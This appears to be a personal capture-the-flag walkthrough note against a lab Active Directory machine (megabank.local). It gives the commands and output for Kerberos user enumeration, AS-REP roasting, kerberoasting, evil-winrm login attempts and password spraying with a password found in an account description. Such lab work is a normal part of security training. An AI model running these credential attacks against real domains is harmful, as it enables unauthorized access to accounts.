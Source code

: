 - enum4linux in tcp139 folder gave a list of usernames
```
cat scans/tcp_139/enum4linux.txt | grep usernames 
```
- Enter the usernames into usernames.txt and check with kerbrute for valid usernames 
```
kerbrute userenum --dc 10.10.10.169 -d megabank.local usernames.txt > userenum.txt
```
- Get more readable data like USERNAME@DOMAIN with
```
awk '{print $7}' userenum.txt > valid_usernames.txt
```
- Get it down to single names without @DOMAIN with 
```
cut -d '@' -f 1 > actual_usernames.txt
```
- Check for asreproast with impacket-getnpusers
```
impacket-GetNPUsers -dc-ip 10.10.10.169 megabank.local/ -usersfile actual_users.txt -format hashcat -outputfile hashes_domain.txt
```
- No luck output below
```
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

/usr/share/doc/python3-impacket/examples/GetNPUsers.py:165: DeprecationWarning: datetime.datetime.utcnow() is deprecated and scheduled for removal in a future version. Use timezone-aware objects to represent datetimes in UTC: datetime.datetime.now(datetime.UTC).
  now = datetime.datetime.utcnow() + datetime.timedelta(days=1)
[-] [Errno Connection error (10.10.10.169:88)] [Errno 110] Connection timed out
[-] User marko doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ryan doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User simon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sunita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn't have UF_DONT_REQUIRE_PREAUTH set
```
- Found Marko's password
```
|   MEGABANK\marko (RID: 1111)
|     Full name:   Marko Novak
|     Description: Account created. Password set to Welcome123!
|     Flags:       Normal user account, Password does not expire
```
- tried a kerberoast no luck
```
impacket-GetUserSPNs -dc-ip 10.10.10.169 megabank.local/marko:Welcome123! -request
```
- tried evil-winrm no luck
```
evil-winrm -u marko -p Welcome123! -i 10.10.10.169
```
- Trying a password spray with Marko's password to see if it's reused
```
/opt/kerbrute/dist/kerbrute_linux_amd64 passwordspray --dc 10.10.10.169 -d megabank.local ../../actual_users.txt 'Welcome123!'
```
- No luck
- 